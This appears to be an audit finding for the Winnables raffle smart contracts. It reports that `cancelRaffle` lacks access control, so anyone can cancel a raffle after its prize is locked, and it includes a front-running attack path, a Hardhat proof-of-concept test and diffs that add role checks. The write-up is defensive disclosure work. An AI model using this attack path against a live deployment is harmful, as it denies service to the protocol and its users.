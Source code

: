 Raspy Spruce Parrot

High

# Attacker can abuse `cancelRaffle` to DoS the protocol

### Summary

An attacker calling cancelRaffle immediately after the prize is locked for a given raffle can cause a Denial of Service (DoS) for the protocol, as the attacker can repeatedly call this function every time a new prize is locked.

### Root Cause

- In [WinnablesTicketManager::cancelRaffle()](https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesTicketManager.sol#L278-L288), there is no modifier that permits concrete roles to execute the function.
- In [WinnablesTicketManager::_checkShouldCancel()](https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesTicketManager.sol#L434-L441) if the prize is locked anyone can cancel.

### Internal pre-conditions

1. Admin locks a prize using `WinnablesPrizeManager`.
2. The CCIP message is received successfully
3. The raffle status is changed to `RaffleStatus::PRIZE_LOCKED`
4. A [RafflePrizeLocked](https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesTicketManager.sol#L383-L387) event is emitted.

### External pre-conditions

1. Attacker is subscribed to `RafflePrizeLocked` events from the `WInnablesTicketManager`.

### Attack Path

1. The attacker receives the emitted event.
2. The attacker calls `cancelRaffle()` with more gas to front-run the Admin.
3. The raffle is canceled, and the prize is unlocked in the `WinnablesPrizeManager`.

### Impact

- The protocol will never be able to create raffle.
- The protocol will lose LINK to transmit messages.

### PoC

```javascript
const { ethers } = require('hardhat');
const { expect } = require('chai');
const helpers = require('@nomicfoundation/hardhat-network-helpers');

const {
    getWalletWithEthers, blockTime, timeSeconds,
} = require('./common/utils');
const { ccipDeployTicketManager } = require('../utils/demo');
const { whileImpersonating } = require('../utils/impersonate');

ethers.utils.Logger.setLogLevel(ethers.utils.Logger.levels.ERROR);

describe('CCIP Ticket Manager', () => {
    let ccipRouter;
    let link;
    let signers;
    let manager;
    let snapshot;
    let counterpartContractAddress;


    before(async () => {
        signers = await ethers.getSigners();
        const result = await ccipDeployTicketManager();
        link = result.link;
        manager = result.ticketManager;
        ccipRouter = result.ccipRouter;

        counterpartContractAddress = signers[1].address;
    });

    describe("Issues with TicketManager", () => {
        before(async () => {
            snapshot = await helpers.takeSnapshot();
        });

        after(async () => {
            await snapshot.restore();
        });

        it('Anyone could cancel the raffle after `RafflePrizeLocked` event received.', async () => {
            // Mint LINK
            await (await link.mint(manager.address, ethers.utils.parseEther('100'))).wait();

            // Simulate message from CCIP for prize locked
            const sourceChainSelector = 1;
            await (await manager.setCCIPCounterpart(counterpartContractAddress, sourceChainSelector, true)).wait();
            let tx = await whileImpersonating(ccipRouter.address, ethers.provider, async (signer) =>
                manager.connect(signer).ccipReceive({
                    messageId: ethers.constants.HashZero,
                    sourceChainSelector: 1,
                    sender: '0x' + counterpartContractAddress.slice(-40).padStart(64, '0'),
                    data: '0x0000000000000000000000000000000000000000000000000000000000000001',
                    destTokenAmounts: []
                })
            );
            const { events } = await tx.wait();
            expect(events).to.have.lengthOf(1);
            expect(events[0].event).to.eq('RafflePrizeLocked');
            const { raffleId } = events[0].args;
            expect(raffleId).to.eq(1);

            const attacker = await getWalletWithEthers();

            // Act
            const cancelTx = await manager.connect(attacker).cancelRaffle(counterpartContractAddress, sourceChainSelector, raffleId);
            const res = await cancelTx.wait();

            // Assert
            const cancelEvents = res.logs
            expect(cancelEvents).to.have.lengthOf(3);
            const ccipMessageEvent = ccipRouter.interface.parseLog(cancelEvents[0]);
            expect(ccipMessageEvent.name).to.eq('MockCCIPMessageEvent');
            expect(ccipMessageEvent.args.data).to.eq('0x000000000000000000000000000000000000000000000000000000000000000001');
        });
    });
});
```

### Mitigation

1. Add a `onlyRole` modifier for the [cancelRaffle()](https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesTicketManager.sol#L278-L288):
```diff
-  function cancelRaffle(address prizeManager, uint64 chainSelector, uint256 raffleId) external {
+ function cancelRaffle(address prizeManager, uint64 chainSelector, uint256 raffleId) external onlyRole(0) {
        _checkShouldCancel(raffleId);

        _raffles[raffleId].status = RaffleStatus.CANCELED;
        _sendCCIPMessage(
            prizeManager,
            chainSelector,
            abi.encodePacked(uint8(CCIPMessageType.RAFFLE_CANCELED), raffleId)
        );
        IWinnablesTicket(TICKETS_CONTRACT).refreshMetadata(raffleId);
    }
```
2. Add logic in [_checkShouldCancel()](https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesTicketManager.sol#L434-L441) so that only Admins can cancel if raffle has not been created yet:
```diff
    function _checkShouldCancel(uint256 raffleId) internal view {
        Raffle storage raffle = _raffles[raffleId];
-       if (raffle.status == RaffleStatus.PRIZE_LOCKED) return;
+      if (raffle.status == RaffleStatus.PRIZE_LOCKED && _hasRole(msg.sender,0)) return;
        if (raffle.status != RaffleStatus.IDLE) revert InvalidRaffle(); 
        if (raffle.endsAt > block.timestamp) revert RaffleIsStillOpen();
        uint256 supply = IWinnablesTicket(TICKETS_CONTRACT).supplyOf(raffleId);
        if (supply > raffle.minTicketsThreshold) revert TargetTicketsReached();
    }
```